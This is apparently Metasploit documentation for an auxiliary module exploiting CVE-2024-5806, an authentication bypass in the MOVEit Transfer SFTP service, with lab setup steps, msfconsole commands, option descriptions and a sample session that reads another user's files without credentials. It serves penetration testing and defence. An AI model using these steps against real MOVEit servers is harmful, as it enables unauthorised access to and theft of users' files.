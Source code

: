 ## Vulnerable Application
This module exploits CVE-2024-5806, an authentication bypass vulnerability in the MOVEit Transfer SFTP service. The
following version are affected:

* MOVEit Transfer 2023.0.x (Fixed in 2023.0.11)
* MOVEit Transfer 2023.1.x (Fixed in 2023.1.6)
* MOVEit Transfer 2024.0.x (Fixed in 2024.0.2)

The module can establish an authenticated SFTP session for a MOVEit Transfer user. The module allows for both listing
the contents of a directory, and the reading of an arbitrary file.

Read our AttackerKB [Rapid7 Analysis](https://attackerkb.com/topics/44EZLG2xgL/cve-2024-5806/rapid7-analysis)
for a full technical description of both the vulnerability and exploitation.

## Testing
1. Installation requires a valid trial license that can be obtained by going here:
   https://www.ipswitch.com/forms/free-trials/moveit-transfer
2. Ensure that your computer has internet access for the license to activate and double-click the installer.
3. Follow installation instructions for an evaluation installation.
4. After the installation completes, follow the instructions to create an sysadmin user.
5. Log in as the sysadmin and create a new Organization (e.g. `TestOrg`).
6. In the `Home` section, click the "Act as administrator in the TestOrg organization" button.
7. In the `Users` section, create a new normal user (e.g. `testuser1`) in the new Organization.
8. In the `Folders` section, navigate to the `testuser1` Home folder and create some files and folders.
9. The SFTP service will be running by default. No further configuration is required.

## Verification Steps

1. Start msfconsole
2. `use auxiliary/gather/progress_moveit_sftp_fileread_cve_2024_5806`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set STORE_LOOT false`
5. `set TARGETUSER <TARGET_USERNAME>` (Must be a valid username on the target server, for example `testuser1`)
6. `set TARGETFILE /`
7. `check`
8. `run`

## Options

### STORE_LOOT
Whether the read file's contents should be stored as loot in the Metasploit database. If set to false, the files
content will be displayed in the console. (default: true).

### TARGETUSER
A valid username to authenticate as. (default: nil).

### TARGETFILE
The full path of a target file or directory to read. If a directory path is specified, the output will be the
directories contents. If a file path is specified, the output will be the files contents. In order to learn
what files you can read, you can first read the root directories (/) contents. (default: /).

## Scenarios

### Default

```
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > set RHOST 169.254.180.121
RHOST => 169.254.180.121
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > set STORE_LOOT false
STORE_LOOT => false
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > set TARGETUSER testuser1
TARGETUSER => testuser1
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > show options

Module options (auxiliary/gather/progress_moveit_sftp_fileread_cve_2024_5806):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   RHOSTS      169.254.180.121  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       22               yes       The target port
   STORE_LOOT  false            no        Store the target file as loot
   TARGETFILE  /                yes       The full path of a target file or directory to read.
   TARGETUSER  testuser1        yes       A valid username to authenticate as.


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > run
[*] Running module against 169.254.180.121

[*] Authenticating as: testuser1@169.254.180.121:22
[*] Listing directory: /
dr-xr-xr-x 1 0 0 0 Jun 23 16:19 /Home/
dr-xr-xr-x 1 0 0 0 Jun 18 22:50 /Home/testuser1/
dr-xr-xr-x 1 0 0 0 Jun 18 22:50 /Home/testuser1/TestFolder1/
-rw-rw-rw- 1 0 0 8 Jun 18 22:50 /Home/testuser1/test.txt
[*] Auxiliary module execution completed
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > run TARGETFILE=/Home/testuser1/test.txt
[*] Running module against 169.254.180.121

[*] Authenticating as: testuser1@169.254.180.121:22
[*] Downloading file: /Home/testuser1/test.txt
secrets!
[*] Auxiliary module execution completed
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > 
```
